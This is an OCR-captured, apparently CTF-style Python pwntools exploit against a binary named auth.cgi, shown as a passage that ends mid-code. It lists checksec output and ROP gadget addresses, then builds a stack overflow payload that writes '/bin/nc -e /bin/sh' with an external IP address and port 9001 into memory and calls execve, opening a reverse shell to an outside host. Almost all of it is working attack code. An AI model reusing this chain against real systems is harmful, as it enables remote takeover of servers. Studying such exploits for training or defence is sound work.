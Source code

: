 ```python
# =========================================================
#                         EXPLOITS
# =========================================================
# └──╼ [★]$ file auth.cgi 
# auth.cgi: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=0519198742c4cfaf17998361e320132e208492c0, for GNU/Linux 3.2.0, with debug_info, not stripped
# └──╼ [★]$ pwn checksec auth.cgi 
#     Arch:     amd64-64-little
#     RELRO:    Partial RELRO
#     Stack:    Canary found
#     NX:       NX enabled
#     PIE:      No PIE (0x400000)

# mov gadgets:
# mov qword ptr [rdi + rsi*8], rdx ; ret
# mov qword ptr [rdi], rcx ; ret
# mov qword ptr [rsi], rdx ; ret

MOV_RDX_TO_PTR_RSI = 0x046b482  # mov qword ptr [rsi], rdx ; ret
POP_RDX_RBX = 0x04696d7         # pop rdx ; pop rbx ; ret
POP_RAX_RDX_RBX = 0x04696d6     # pop rax ; pop rdx ; pop rbx ; ret 
POP_RSI = 0x040f782             # pop rsi ; ret
POP_RDI = 0x0401d90             # pop rdi ; ret 
SYSCALL = 0x04011a2             # syscall
BSS = elf.bss()

def mov(where, what):
    return flat([
        POP_RDX_RBX,
        what,
        0x0,
        POP_RSI,
        where,
        MOV_RDX_TO_PTR_RSI
    ])

def craft_payload() -> bytes:
    offset = 168
    payload = flat({
        offset: [
            mov(BSS, 0x68732f6e69622f),         # /bin/sh
            mov(BSS + 8, 0x636e2f6e69622f),     # /bin/nc
            mov(BSS + 16, 0x652d),              # -e
            mov(BSS + 24, 0x31303039),          # '9001'
            # mov(BSS + 32, 0x2e302e302e373231),  # 127.0.0.1
            # mov(BSS + 40, 0x31),
            mov(BSS + 32, 0x2e3834322e343031),      # 104.248.153.73
            mov(BSS + 40, 0x33372e333531),

            # {"/bin/nc","ip","1337","-e","/bin/sh"}
            mov(BSS + 48, BSS + 8),     # /bin/nc
            mov(BSS + 56, BSS + 32),    # ip
            mov(BSS + 64, BSS + 24),    # 9001
            mov(BSS + 72, BSS + 16),    # -e
            mov(BSS + 80, BSS),         # /bin/sh
            mov(BSS + 88, 0x0),         # NULL (terminate array)

            POP_RDI,
            BSS + 8,
            POP_RSI, 
            BSS + 48,
            POP_RAX_RDX_RBX,
            0x3b,
```